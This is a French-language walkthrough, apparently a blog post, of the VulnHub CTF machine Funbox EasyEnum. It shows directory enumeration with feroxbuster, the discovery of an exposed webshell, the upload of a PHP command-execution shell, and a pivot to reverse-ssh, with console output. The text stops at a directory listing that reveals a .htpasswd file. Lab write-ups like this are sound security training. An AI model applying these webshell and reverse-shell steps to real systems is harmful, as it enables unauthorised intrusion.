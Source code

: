 ```yaml
---
title: Solution du CTF Funbox Easy Enum de VulnHub
tags: [CTF, VulnHub]
---
```


### Fast Shell

[Funbox: EasyEnum](https://vulnhub.com/entry/funbox-easyenum,565/) est le 7ème opus de cette saga de CTF. J'ai zappé le 6 qui est une aberration, délire d'illogisme de son auteur.

Là ça va très vite. Une énumération remonte directement un webshell :

```console
$ feroxbuster -u http://192.168.56.127 -w DirBuster-0.12/directory-list-2.3-big.txt -n -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.127
 🚀  Threads               │ 50
 📖  Wordlist              │ DirBuster-0.12/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 💲  Extensions            │ [php]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      321c http://192.168.56.127/javascript
200      130l      300w     4443c http://192.168.56.127/mini.php
301        9l       28w      317c http://192.168.56.127/secret
301        9l       28w      321c http://192.168.56.127/phpmyadmin
403        9l       28w      279c http://192.168.56.127/server-status
```

Enfin... Ce webshell nommé `Zerion Mini Shell 1.0` ne permet pas d'exécuter des commandes, mais d'uploader des fichiers. J'en envoie donc un qui utilise la fonction `system()`.

Une fois passé à `reverse-ssh` je remarque un fichier `.htpasswd` mais à ce stade, je n'ai pas d'accès :

```console
www-data@funbox7:/var/www/html$ ls -alR
.:
total 3648
drwxrwxrwx 3 root     root        4096 Jul  2 20:22 .
drwxr-xr-x 3 root     root        4096 Sep 18  2020 ..
-rwxrwxrwx 1 root     root       10918 Sep 18  2020 index.html
-rwxrwxrwx 1 root     root        8218 Sep 18  2020 mini.php
-rwxr-xr-x 1 www-data www-data 3690496 Oct 19  2022 reverse-sshx64
-rwxrwxrwx 1 root     root          21 Sep 18  2020 robots.txt
drwxrwxrwx 2 root     root        4096 Sep 19  2020 secret
-rw-r--r-- 1 www-data www-data      31 Jul  2 20:20 shell.php

./secret:
total 16
drwxrwxrwx 2 root  root  4096 Sep 19  2020 .
drwxrwxrwx 3 root  root  4096 Jul  2 20:22 ..
-rwx------ 1 harry harry   79 Sep 18  2020 .htpasswd
-rwxrwxrwx 1 root  root    62 Sep 19  2020 index.html
```